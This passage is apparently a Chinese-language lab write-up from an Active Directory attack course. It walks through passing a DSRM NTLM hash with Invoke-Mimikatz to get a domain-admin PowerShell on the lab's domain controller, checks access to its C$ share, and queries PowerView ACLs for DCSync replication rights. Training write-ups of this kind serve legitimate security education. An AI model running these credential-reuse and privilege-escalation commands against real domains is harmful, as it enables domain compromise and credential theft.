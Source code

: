 

现在用DSRM的原始哈希，来运行一个有DA权限的shell,注意，这里的/domain参数指定的是dcorp-dc这台计算机，不是域的名字



```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'
```

验证：

```
ls \\dcorp-dc.dollarcorp.moneycorp.local\c$
```



![image-20220306221226953](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306221226953.png)

可以访问文件系统，但是不能在这台系统上执行命令。

如果想要用DSRM获得一个shell，可以设置一个定时任务



# Learning Objective 12:
```Task
● Check if studentx has Replication (DCSync) rights.
● If yes, execute the DCSync attack to pull hashes of the krbtgt user.
● If no, add the replication rights for the studentx and execute the DCSync attack to pull hashes of the krbtgt user.
```



## Check if studentx has Replication (DCSync) rights.

查看当前账号是否有DCSync的能力

```
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.IdentityReference -match "student366") -and (($_.ObjectType -match'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}

```



![image-20220307205932704](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220307205932704.png)



没有任何返回，说明没有DCSync的能力

## If yes, execute the DCSync attack to pull hashes of the krbtgt user.

问题前提不成立
